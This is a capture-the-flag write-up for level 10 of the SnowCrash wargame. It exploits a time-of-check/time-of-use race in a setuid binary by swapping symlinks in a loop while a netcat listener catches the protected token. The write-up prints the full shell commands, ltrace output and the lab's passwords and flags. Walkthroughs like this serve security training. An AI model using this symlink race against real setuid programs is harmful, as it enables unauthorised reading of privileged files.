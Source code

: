 `su level10 -> s5cAJpM8ev6XHw998pRWG728z`

We have a binary owned by flag10 and a token impossible to read:

```bash
level10@SnowCrash:~$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

Try to run the binary:

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

Try something without port information:

```bash
level10@SnowCrash:~$ ./level10 token  0.0.0.0
You don't have access to token
```

Try with a file with good permissions:

```bash
level10@SnowCrash:~$ echo 42 > /tmp/42
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Now we know the port is `6969`. We can try to send the file to netcat server.
To do this we need to run netcat server in a terminal and send the file in another terminal.

- send the file:

```bash
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

- netcat server:

```bash
level10@SnowCrash:~$ nc -l 6969
.*( )*.
42
```

It's working but not with the token. Check what it's doing with ltrace with `/tmp/42`:

```bash
level10@SnowCrash:~$ ltrace ./level10 /tmp/42  0.0.0.0
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>)
access("/tmp/42", 4)
printf("Connecting to %s:6969 .. ", "0.0.0.0")
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )
socket(2, 1, 0)
inet_addr("0.0.0.0")
htons(6969, 1, 0, 0, 0)
connect(3, 0xbffff71c, 16, 0, 0)
write(3, ".*(
printf("Connected!\nSending file .. "Connected!)
)
fflush(0xb7fd1a20Sending file .. )
open("/tmp/42", 0, 010)
read(4, "42\n", 4096)
write(3, "42\n", 3)
puts("wrote file!"wrote file!
)
+++ exited (status 12)
```

The binary check first if our user can read the file and then open it and write in the socket.
We can exploit a **race condition** because the socket thinks are executed after the access and it take long time.
To do this we need to:

1- Listen with netcat

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
```

-2 Create a file where we can access / delete it / create a symlink between the file and token:

```bash
level10@SnowCrash:~$ while true; do touch /tmp/42; rm -rf /tmp/42; ln -s $PWD/token /tmp/42; rm -rf /tmp/42; done
```

3- Send `/tmp/42` to the server a lots of times:

```bash
level10@SnowCrash:~$ while true ; do ./level10 /tmp/42 0.0.0.0 2> /dev/null; done
```

Then we get the token mulitple times:

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

Connect with this:

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
